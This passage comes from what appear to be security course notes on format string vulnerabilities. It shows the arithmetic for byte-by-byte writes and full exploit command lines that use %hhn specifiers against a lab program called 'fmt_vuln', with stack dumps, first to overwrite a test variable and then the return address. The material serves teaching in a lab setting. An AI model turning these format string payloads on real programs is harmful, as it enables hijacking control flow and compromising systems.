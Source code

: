Now the last byte. We are writing 8f and the target is 2d, which means
wrapping around:

``` {.example}
user@si485H-base:demo$ python -c "print (0x100 - 0x8f) + 0x2d + 8"
166
```

And now we've got it:

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf '\x27\xa0\x04\x08')$(printf '\x26\xa0\x04\x08')$(printf '\x25\xa0\x04\x08')$(printf '\x24\xa0\x04\x08')..%1\$245x.%121\$hhn.%1\$250x.%122\$hhn.%1\$127x.%123\$hhn.%1\$166x.%124\$hhn
Right: '&%$..%1$245x.%121$hhn.%1$250x.%122$hhn.%1$127x.%123$hhn.%1$166x.%124$hhn

Wrong: '&%$..                                                                                                                                                                                                                                             bffff854..                                                                                                                                                                                                                                                  bffff854..                                                                                                                       bffff854..                                                                                                                                                              bffff854.

[*] test_val @ 0x804a024 = 0x804852d
--- STACK main ---
0xbffff694 <ebp+0xc>: bffff724
0xbffff690 <ebp+0x8>: 00000002
0xbffff68c <ebp+0x4>: b7e33a83
0xbffff688 <ebp>: 00000000
0xbffff684 <ebp-0x4>: 00000000
0xbffff680 <ebp-0x8>: 080485e0
0xbffff67c <ebp-0xc>: b7fc4000
0xbffff678 <ebp-0x10>: 0804852d
0xbffff674 <ebp-0x14>: 00000002
0xbffff670 <ebp-0x18>: 080486f5
0xbffff66c <ebp-0x1c>: 080485d3
0xbffff668 <ebp-0x20>: bffff688
```

Overwriting the return address
------------------------------

Now, that we have everything in place, it's only a matter of overwriting
the return address. Fortunately, I've been printing out the stack each
time to make life easier, so we know the address of the return address
is 0xbffff68c. We can now stick that in to the from of our format string
to complete the exploit.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf '\x8f\xf6\xff\xbf')$(printf '\x8e\xf6\xff\xbf')$(printf '\x8d\xf6\xff\xbf')$(printf '\x8c\xf6\xff\xbf')..%1\$245x.%121\$hhn.%1\$250x.%122\$hhn.%1\$127x.%123\$hhn.%1\$166x.%124\$hhn
Right: ????????????????..%1$245x.%121$hhn.%1$250x.%122$hhn.%1$127x.%123$hhn.%1$166x.%124$hhn

Wrong: ????????????????..                                                                                                                                                                                                                                             bffff854..                                                                                                                                                                                                                                                  bffff854..                                                                                                                       bffff854..                                                                                                                                                              bffff854.

```